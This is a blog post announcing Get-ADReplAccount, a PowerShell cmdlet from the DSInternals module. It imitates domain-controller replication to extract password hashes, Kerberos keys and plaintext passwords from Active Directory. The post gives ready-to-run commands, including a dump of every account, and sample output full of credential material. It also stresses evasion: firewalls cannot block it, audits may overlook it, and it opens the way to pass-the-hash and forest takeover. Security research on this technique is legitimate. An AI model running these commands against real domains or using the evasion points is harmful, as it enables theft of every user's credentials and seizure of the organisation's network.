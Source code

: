```yaml
---
ref: retrieving-active-directory-passwords-remotely
title: Retrieving Active Directory Passwords Remotely
date: 2015-08-04T10:38:08+00:00
layout: post
lang: en
permalink: /en/retrieving-active-directory-passwords-remotely/
tags:
    - 'Active Directory'
    - PowerShell
    - Security
---
```


I have finally finished work on the&nbsp;**Get-ADReplAccount** cmdlet, the&nbsp;newest addition to&nbsp;my [DSInternals PowerShell Module](/en/projects/), that&nbsp;can&nbsp;retrieve [reversibly encrypted plaintext passwords](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh994559(v=ws.11)), password hashes and&nbsp;Kerberos keys of&nbsp;all user accounts from&nbsp;remote domain controllers. This&nbsp;is&nbsp;achieved by&nbsp;simulating the&nbsp;behavior of&nbsp;the&nbsp;**dcpromo** tool and&nbsp;creating a&nbsp;replica of&nbsp;Active Directory database through the&nbsp;[MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) protocol. Furthermore, it&nbsp;has these properties:

- It&nbsp;does not even&nbsp;need the&nbsp;Domain Admins group membership. The&nbsp;**Replicating Directory Changes All** permission is&nbsp;more than&nbsp;enough for&nbsp;this&nbsp;cmdlet to&nbsp;do&nbsp;its job.
- It&nbsp;opens door to&nbsp;other attacks, e.g. pass-the-hash, pass-the-ticket or&nbsp;PAC spoofing, that&nbsp;can&nbsp;be&nbsp;used to&nbsp;seize control of&nbsp;the&nbsp;entire Active Directory forest. Long live [mimikatz](https://github.com/gentilkiwi/mimikatz)!
- It&nbsp;cannot be&nbsp;effectively blocked by&nbsp;firewalls, because&nbsp;the&nbsp;directory replication service (DRSGetNCChanges call to&nbsp;be&nbsp;more precise) shares the&nbsp;same port with&nbsp;other critical services, like user name resolution (exposed by&nbsp;the&nbsp;DsCrackNames call).
- It&nbsp;only uses documented features of&nbsp;Active Directory and&nbsp;is&nbsp;not a&nbsp;hack per se.
- It&nbsp;leaves only minimal footprint on Domain Conrollers and&nbsp;can&nbsp;be&nbsp;easily overlooked by&nbsp;security audits.

Usage example:

```powershell
Import-Module DSInternals
$cred = Get-Credential
Get-ADReplAccount -SamAccountName April -Domain Adatum -Server LON-DC1 `
-Credential $cred -Protocol TCP
```

<!--more-->

Sample output:

```
DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-1375
Guid: 124ae098-699b-4450-a47a-314a29cc90ea
SamAccountName: April
SamAccountType: User
UserPrincipalName: April@adatum.com
PrimaryGroupId: 513
SidHistory: 
Enabled: True
Deleted: False
LastLogon: 
DisplayName: April Reagan
GivenName: April
Surname: Reagan
Description: 
NTHash: 92937945b518814341de3f726500d4ff
LMHash: 727e3576618fa1754a3b108f3fa6cb6d
NTHashHistory: 
  Hash 01: 92937945b518814341de3f726500d4ff
  Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
  Hash 03: 402bc59d8a00641b7f386e78596340f4
LMHashHistory: 
  Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
  Hash 02: 5a5503d0e85f58abaad3b435b51404ee
  Hash 03: f9393d97e7a1873caad3b435b51404ee
SupplementalCredentials:
  ClearText: Pa$$w0rd
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
    OldCredentials:
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
    Salt: ADATUM.COMApril
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: a72c8bc96c4a6f03244f0b0067a1e440
        Iterations: 4096
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 034b512ec64286dec951d6aff8d81fa8
        Iterations: 4096
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
        Iterations: 4096
    OlderCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 29d536ec057f9063747161429b81f056
        Iterations: 4096
      DES_CBC_MD5
        Key: 58f1cbe6e50e1f83
        Iterations: 4096
    ServiceCredentials:
    Salt: ADATUM.COMApril
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 02: c993da396914645b356ae7816251fcb1
    Hash 03: 6b58530cab34de91189a603e22c2be15
    Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 05: 5a762cf59fa31023dcba1ebd4725b443
    Hash 06: c78bac91c0ba25cae5d44460fd65a73b
    Hash 07: 59d73cea16afd1aac6bf8acfa2768621
    Hash 08: d2be383db9469a39736d9e2136054131
    Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
    Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
    Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
    Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
    Hash 13: e899e577d5f81ef5288ab67de07fad9a
    Hash 14: 135452ab86d40c3d47ca849646d5e176
    Hash 15: a84c367eaa334d0a4cb98e36da011e0f
    Hash 16: 61a458eb70440b1a92639452f0c2c948
    Hash 17: 238f4059776c3575be534afb46be4ccf
    Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
    Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
    Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
    Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
    Hash 22: f1685383b0c131035ae264ee5bd24a8d
    Hash 23: 3119e42886b01cad00347e72d0cee594
    Hash 24: ebef7f2c730e17ded8cba1ed20122602
    Hash 25: 7d99673c9895e0b9c484e430578ee78e
    Hash 26: e1e20982753c6a1140c1a8241b23b9ea
    Hash 27: e5ec1c63e0e549e49cda218bc3752051
    Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
    Hash 29: 84010d657e6b58ce233fae2bd7644222
```

You could even dump all accounts at once, but&nbsp;this&nbsp;can&nbsp;cause heavy (=suspicious) replication traffic:

```powershell
Get-ADReplAccount -All -NamingContext 'DC=Adatum,DC=com' -Server LON-DC1
```
